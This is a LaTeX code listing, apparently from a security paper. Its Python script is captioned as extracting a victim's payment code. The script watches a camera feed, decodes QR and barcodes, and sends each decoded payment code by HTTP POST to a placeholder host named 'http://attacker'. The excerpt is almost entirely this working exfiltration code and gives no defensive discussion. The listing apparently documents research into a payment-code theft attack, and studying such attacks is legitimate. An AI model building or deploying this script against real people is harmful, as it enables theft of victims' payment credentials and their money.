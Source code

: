 \begin{lstlisting}[caption={python script for extracting payment code of victim},label=lst2:qr]
    import cv2
    import pyzbar.pyzbar as pyzbar
    import qrcode
    import requests
    def decodeDisplay(video):
        global current
        gray = cv2.cvtColor(video, cv2.COLOR_BGR2GRAY)
        barcodes = pyzbar.decode(gray)
        for barcode in barcodes:
            barcodeData = barcode.data.decode("utf-8")
            barcodeType = barcode.type
            img = qrcode.make(barcodeData)
            requests.post(
                'http://attacker',
                data={'code': barcodeData}
            )
    if __name__ == '__main__':
        # 0 is the camera ID
        cam = cv2.VideoCapture(0)
        while True:
            ret, frame = cam.read()
            decodeDisplay(frame)
            if cv2.waitKey(5) == 27:
                break
        cam.release()
        cv2.destroyAllWindows()
\end{lstlisting}
